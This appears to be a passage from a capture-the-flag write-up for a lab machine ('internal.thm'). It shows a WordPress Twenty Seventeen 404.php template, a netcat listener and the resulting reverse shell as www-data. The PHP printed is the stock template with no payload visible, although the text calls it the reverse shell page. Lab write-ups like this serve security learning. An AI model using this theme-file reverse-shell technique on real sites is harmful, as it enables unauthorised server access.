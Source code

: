 ```php
 *
 * @package WordPress
 * @subpackage Twenty_Seventeen
 * @since 1.0
 * @version 1.0
 */

get_header(); ?>

<div class="wrap">
	<div id="primary" class="content-area">
		<main id="main" class="site-main" role="main">

			<section class="error-404 not-found">
				<header class="page-header">
					<h1 class="page-title"><?php _e( 'Oops! That page can&rsquo;t be found.', 'twentyseventeen' ); ?></h1>
				</header><!-- .page-header -->
				<div class="page-content">
					<p><?php _e( 'It looks like nothing was found at this location. Maybe try a search?', 'twentyseventeen' ); ?></p>

					<?php get_search_form(); ?>

				</div><!-- .page-content -->
			</section><!-- .error-404 -->
		</main><!-- #main -->
	</div><!-- #primary -->
</div><!-- .wrap -->

<?php get_footer();

```

We start a netcat listener:
```
└─$ nc -lvnp 1337
listening on [any] 1337 ...
```

We browse to the reverse shell page:
```
http://internal.thm/blog/wp-content/themes/twentyseventeen/404.php
```

We get a reverse shell:
```
listening on [any] 1337 ...
connect to [10.9.0.123] from (UNKNOWN) [10.10.223.59] 54260
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 22:03:29 up 34 min,  0 users,  load average: 0.00, 0.37, 1.78
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data

```

